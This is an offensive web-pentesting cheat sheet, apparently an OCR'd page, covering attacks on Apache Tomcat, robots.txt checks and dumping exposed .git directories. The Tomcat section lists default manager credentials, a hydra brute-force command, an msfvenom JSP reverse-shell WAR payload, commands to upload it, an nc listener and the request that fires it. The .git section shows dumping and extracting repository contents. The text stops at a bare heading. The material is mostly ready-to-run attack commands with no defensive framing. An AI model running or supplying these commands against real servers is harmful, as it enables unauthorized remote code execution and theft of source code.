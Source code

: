 **Tomcat**

```text
The most useful path of Tomcat is /manager/html, you can upload and deploy war files (execute code). But this path is protected by basic HTTP auth, the most common credentials are:

admin:admin
tomcat:tomcat
admin:<NOTHING>
admin:s3cr3t
tomcat:s3cr3t
admin:tomcat

# Brute force Tomcat panel
hydra -L <USERS_LIST> -P <PASSWORDS_LIST> -f <IP> http-get /manager/html -vV -u


# Tomcat panel RCE
# Generate payload
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war

# Upload payload
Tomcat6 :
wget 'http://<USER>:<PASSWORD>@<IP>:8080/manager/deploy?war=file:shell.war&path=/shell' -O -

Tomcat7 and above :
curl -v -u <USER>:<PASSWORD> -T shell.war 'http://<IP>:8080/manager/text/deploy?path=/shellh&update=true'

# Listener
nc -lvp <PORT>

# Execute payload
curl http://<IP>:8080/shell/
```

**Robots.txt**

```text
/robots.txt
```

**.git subdirectory**

```text
mkdir <DESTINATION_FOLDER>
./gitdumper.sh <URL>/.git/ <DESTINATION_FOLDER>

# Extract .git content
mkdir <EXTRACT_FOLDER>
./extractor.sh <DESTINATION_FOLDER> <EXTRACT_FOLDER>
```

**Only get HTTP headers**
